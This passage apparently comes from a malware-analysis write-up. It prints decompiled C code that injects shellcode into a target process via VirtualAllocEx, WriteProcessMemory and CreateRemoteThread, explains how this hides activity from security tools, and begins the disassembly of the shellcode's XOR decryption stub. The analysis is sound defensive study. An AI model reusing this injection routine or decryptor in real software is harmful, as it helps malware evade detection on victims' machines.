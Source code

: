 ```c
    
    // Process injection sequence
    pid = unknown_libname_26(argv[1]);
    sub_140001010("Injecting to PID: %i", pid);
    v18 = unknown_libname_26(argv[1]);
    process = OpenProcess(0x1FFFFFu, 0, v18);
    mem = VirtualAllocEx(process, 0i64, 0x228ui64, 0x3000u, 0x40u);
    WriteProcessMemory(process, mem, Buffer, 0x228ui64, 0i64);
    CreateRemoteThread(process, 0i64, 0i64, (LPTHREAD_START_ROUTINE)mem, 0i64, 0, 0i64);
    CloseHandle(process);
    return 0;
}
```
(variable and function names were changed by me)

The main function performs several key operations:

1. **Shellcode Preparation**: It copies bytes from a global variable (`bytecode_enc`) into a local buffer, processing the data in chunks using XMM registers for efficient memory operations.

2. **Process Targeting**: It opens a target process using the PID specified as a command-line argument.

3. **Memory Allocation**: It allocates executable memory space within the target process using `VirtualAllocEx` with `PAGE_EXECUTE_READWRITE` permissions.

4. **Code Injection**: It writes the prepared shellcode buffer into the allocated memory space of the target process.

5. **Remote Execution**: It creates a new thread in the target process that executes the injected shellcode.

6. **Cleanup**: It closes the process handle.

This is a classic **process injection** technique commonly used in malware. The purpose of this approach, rather than executing the shellcode directly, is to mask malicious activity. When the injected code runs, any suspicious behavior (high CPU usage, network connections, file system access) will appear to originate from legitimate processes like `notepad.exe` or other benign applications, making detection significantly more difficult for both users and security software.

The next step in the analysis was to extract and examine the shellcode stored in the global variable to understand the actual malicious payload.



## Shellcode Extraction and Decryption

With the main function behavior understood, the next step was to extract and analyze the actual shellcode stored in the global variable. Loading the binary data into IDA Pro revealed an interesting structure.

The shellcode began with valid x86-64 assembly instructions, but quickly transitioned into what appeared to be random bytes. Upon closer examination of the initial instructions, I discovered a runtime decryption routine:

```assembly
seg000:0000000000000000 loc_0:                                  ; DATA XREF: seg000:000000000000000A↓o
seg000:0000000000000000                 xor     rcx, rcx
seg000:0000000000000003                 sub     rcx, 0FFFFFFFFFFFFFFC0h
seg000:000000000000000A                 lea     rax, loc_0
seg000:0000000000000011                 mov     rbx, 0E64DDC02B7BACB6Fh
seg000:000000000000001B
seg000:000000000000001B loc_1B:                                 ; CODE XREF: seg000:0000000000000025↓j
seg000:000000000000001B                 xor     qword ptr ds:rva loc_27[rax], rbx
seg000:000000000000001F                 sub     rax, 0FFFFFFFFFFFFFFF8h
seg000:0000000000000025                 loop    loc_1B
seg000:0000000000000027
```